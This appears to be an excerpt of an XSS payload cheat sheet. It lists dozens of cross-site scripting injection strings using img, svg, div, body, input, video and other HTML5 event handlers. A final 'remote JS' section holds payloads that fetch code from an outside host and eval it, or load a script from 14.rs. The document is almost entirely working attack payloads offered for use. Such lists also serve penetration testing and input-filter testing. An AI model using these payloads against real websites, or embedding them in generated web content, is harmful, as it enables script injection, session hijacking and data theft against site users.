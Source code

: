 ```javascript
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

